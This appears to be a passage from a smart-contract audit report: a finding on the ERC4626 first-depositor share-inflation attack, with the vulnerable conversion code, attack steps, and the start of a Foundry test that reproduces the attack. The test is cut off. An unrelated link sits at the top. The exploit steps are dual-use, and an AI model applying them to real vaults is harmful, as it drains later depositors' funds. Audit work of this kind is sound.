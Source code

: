 https://a16zcrypto.com/posts/article/dao-governance-attacks-and-how-to-avoid-them/


### [Low-08] First ERC4626 deposit exploit can break share calculation

A well known attack vector for almost all shares based liquidity pool contracts, where an early user can manipulate the price per share and profit from late users' deposits because of the precision loss caused by the rather large value of price per share.


```solidity

src/erc-4626/ERC4626.sol:
  105      /// @inheritdoc IERC4626
  106:     function convertToShares(uint256 assets) public view virtual returns (uint256) {
  107:         uint256 supply = totalSupply; // Saves an extra SLOAD if totalSupply is non-zero.
  108: 
  109:         return supply == 0 ? assets : assets.mulDiv(supply, totalAssets());
  110:     }
  111  

src/erc-4626/ERC4626DepositOnly.sol:
  67      /// @inheritdoc IERC4626DepositOnly
  68:     function convertToShares(uint256 assets) public view virtual returns (uint256) {
  69:         uint256 supply = totalSupply; // Saves an extra SLOAD if totalSupply is non-zero.
  70: 
  71:         return supply == 0 ? assets : assets.mulDiv(supply, totalAssets());
  72:     }

```
### Proof Of Concept
1 - A malicious early user can `deposit()` with 1 wei of asset token as the first depositor of the LToken, and get 1 wei of shares

2 - Then the attacker can send 10000e18 - 1 of asset tokens and inflate the price per share from 1.0000 to an extreme value of 1.0000e22 ( from (1 + 10000e18 - 1) / 1)

3 - As a result, the future user who deposits 19999e18 will only receive 1 wei (from 19999e18 * 1 / 10000e18) of shares token

4 - They will immediately lose 9999e18 or half of their deposits if they `redeem()` right after the `deposit()`

The attacker can profit from future users' deposits. While the late users will lose part of their funds to the attacker.


```solidity
// test/ERC4626-Cloned.t.sol
function SharePriceManipulation() external {
    address USER1 = address(0x583031D1113aD414F02576BD6afaBfb302140225);
    address USER2 = address(0xdD870fA1b7C4700F2BD7f44238821C26f7392148);
    vm.label(USER1, "USER1");
    vm.label(USER2, "USER2");

    // Resetting the withdrawal fee for cleaner amounts.
    ERC4626-Cloned.setWithdrawalPenalty(0);

    vm.startPrank(address(VaultToken));        
    VaultToken.mint(USER1, 10e18);
    VaultToken.mint(USER2, 19e18);
    vm.stopPrank();

    vm.startPrank(USER1);
    VaultToken.approve(address(ERC4626-Cloned), 1);
    // USER1 deposits 1 wei of VaultToken and gets 1 wei of shares.
    ERC4626-Cloned.deposit(1, USER1);
```